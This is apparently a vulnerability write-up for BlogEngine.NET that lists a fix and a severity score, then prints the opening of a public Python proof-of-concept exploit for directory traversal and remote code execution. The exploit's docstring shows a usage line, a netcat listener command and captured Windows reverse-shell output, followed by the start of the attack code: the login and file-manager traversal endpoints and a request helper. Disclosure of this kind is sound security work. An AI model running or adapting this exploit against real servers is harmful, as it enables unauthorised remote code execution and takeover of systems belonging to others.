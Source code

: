 **Vulnerability Fix:**
This vulnerability can be fixed by upgrading to a new version of BlogEngine.

**Severity:**
High - Based score of 8.8 from https://nvd.nist.gov/vuln/detail/CVE-2019-10719

**Proof of Concept Code Here:**
```python
# Exploit Title: Directory Traversal + RCE on BlogEngine.NET
# Date: 17 Jun 2019
# Exploit Author: Aaron Bishop
# Vendor Homepage: https://blogengine.io/
# Version: v3.3.7
# Tested on: 3.3.7, 3.3.6
# CVE : 2019-10720

import argparse
import io
import json
import os
import re
import requests
import sys

"""
Exploit for CVE-2019-10719

CVE Identified by: Aaron Bishop
Exploit written by: Aaron Bishop

Upload and trigger a reverse shell

python exploit.py -t 192.168.10.9 -l 192.168.10.10:1337

Open a listener to capture the reverse shell - Metasploit or netcat

nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.10.10] from (UNKNOWN) [192.168.10.9] 49680
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

"""

urls = {
        "login": "/Account/login.aspx",
        "traversal": "/api/filemanager"
       }


def make_request(session, method, target, params={}, data={}, files={}):
    proxies = {
            "http": "127.0.0.1:8080",
            "https": "127.0.0.1:8080"
              }
    if method == 'GET':
        r = requests.Request(method, target, params=params)
    elif method == 'POST':
        if files:
            r = requests.Request(method, target, files=files)
        else:
            r = requests.Request(method, target, data=data)
    prep = session.prepare_request(r)
    resp = session.send(prep, verify=False, proxies=proxies)
    return resp.text
```